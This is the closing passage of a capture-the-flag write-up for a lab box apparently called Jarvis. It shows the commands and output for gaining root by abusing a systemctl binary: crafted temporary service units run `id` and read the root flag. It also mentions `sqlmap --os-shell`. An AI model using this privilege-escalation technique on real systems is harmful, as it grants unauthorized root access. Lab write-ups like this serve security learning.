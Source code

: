 We link the service using sysemctl:

    :::text
    pepper@jarvis:~$ /bin/systemctl link $TF
    Created symlink /etc/systemd/system/tmp.iyGBjTyKtn.service → /tmp/tmp.iyGBjTyKtn.service.

We start the service using sysemctl:

    :::text
    pepper@jarvis:~$ /bin/systemctl enable --now $TF
    Created symlink /etc/systemd/system/multi-user.target.wants/tmp.iyGBjTyKtn.service → /tmp/tmp.iyGBjTyKtn.service.

We get the result of the `id` command in `/tmp/output`.

    :::text
    pepper@jarvis:~$ cat /tmp/output 
    uid=0(root) gid=0(root) groups=0(root)

The command was executed. Now we create a second service which will output the
root's flag:

    :::text
    pepper@jarvis:~$ TF2=$(mktemp).service
    pepper@jarvis:~$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF2
    pepper@jarvis:~$ /bin/systemctl link $TF2
    Created symlink /etc/systemd/system/tmp.ZcSgmH8PDr.service → /tmp/tmp.ZcSgmH8PDr.service.
    pepper@jarvis:~$ /bin/systemctl enable --now $TF2
    Created symlink /etc/systemd/system/multi-user.target.wants/tmp.ZcSgmH8PDr.service → /tmp/tmp.ZcSgmH8PDr.service.
    pepper@jarvis:~$ cat /tmp/output 
    d41d8<redacted>

# Wrapping up

This box was a nice one. It has been a long time since my last usage of
`sqlmap --os-shell` command.
The movement from `www-data` to `pepper` was easy and the privilege
escalation let me learn new things about systemd.

